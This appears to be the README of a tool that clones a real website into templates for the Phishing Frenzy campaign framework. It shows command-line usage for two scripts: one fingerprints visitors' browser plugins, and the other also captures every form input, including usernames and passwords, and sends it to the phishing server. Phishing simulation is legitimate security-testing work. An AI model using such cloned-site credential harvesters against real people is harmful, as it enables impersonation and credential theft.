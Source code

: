 # phishing-frenzy-template-cloner   
   
The script **genTemplate-nopwd.py** is useful if you are interested in generating a phishing frenzy template that fingerprints the browser plugins and sent back these data to the phishing frenzy server.      
```
$ python genTemplate-nopwd.py -c http://edition.cnn.com -u phishingfrenzydomain -i fakedomain.com
- Cloning website: http://edition.cnn.com
- Generated data.html, index.php and index2.php
- Generated attachments.yml and template.yml
- Creating archive
- Generated zip file: template.zip
- You can now import the file in Phishing Frenzy under Templates > Restore
```
  
  
The script **genTemplate-pwd.py** is useful if you are interested in generating a phishing frenzy template that does what **genTemplate-nopwd.py** does plus it captures all form inputs (e.g. username/passwords) and sent back these data to the phishing frenzy server.  
```
$ python genTemplate-pwd.py -c http://edition.cnn.com -u phishingfrenzydomain -i fakedomain.com
- Download PluginDetect Javascript file
- Cloning website: http://edition.cnn.com
- Generated index.php and process.php
- Generated attachments.yml and template.yml
- Creating archive
- Generated zip file: template.zip
- You can now import the file in Phishing Frenzy under Templates > Restore
```


